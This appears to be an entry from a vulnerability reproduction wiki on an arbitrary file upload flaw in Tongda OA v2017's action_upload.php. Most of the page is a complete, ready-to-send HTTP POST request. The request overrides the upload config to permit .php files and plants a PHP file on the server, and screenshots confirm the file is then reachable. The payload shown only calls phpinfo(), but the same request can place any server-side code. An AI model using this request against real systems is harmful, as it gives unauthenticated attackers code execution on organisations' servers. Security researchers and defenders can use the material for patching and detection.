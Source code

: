 # Tongda OA v2017 action_upload.php any file upload vulnerability

## Vulnerability Description

Tongda OA v2017 action_upload.php file filtering is insufficient and no background permission is required, resulting in a vulnerability to upload any file

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Tongda OA v2017</span>

## Network surveying and mapping



## Vulnerability reappears

Access to get version information

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628301733285-a06c056e-4c78-4b77-bb05-bb01fef71ebc.png)

Send request package to upload any file

```php
POST /module/ueditor/php/action_upload.php?action=uploadfile HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 893
Content-Type: multipart/form-data; boundary=---------------------------55719851240137822763221368724
X_requested_with: XMLHttpRequest
Accept-Encoding: gzip

-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[fileFieldName]"

ffff
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[fileMaxSize]"

1000000000
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[filePathFormat]"

tcmd
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[fileAllowFiles][]"

.php
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="ffff"; filename="test.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="mufile"

submit
-----------------------------55719851240137822763221368724--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628301944004-f70c17d1-14fa-4653-9888-720876947b7d.png)

Access the uploaded file again

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628301997079-6703e75c-6115-4f8a-a455-3e53054ce34a.png)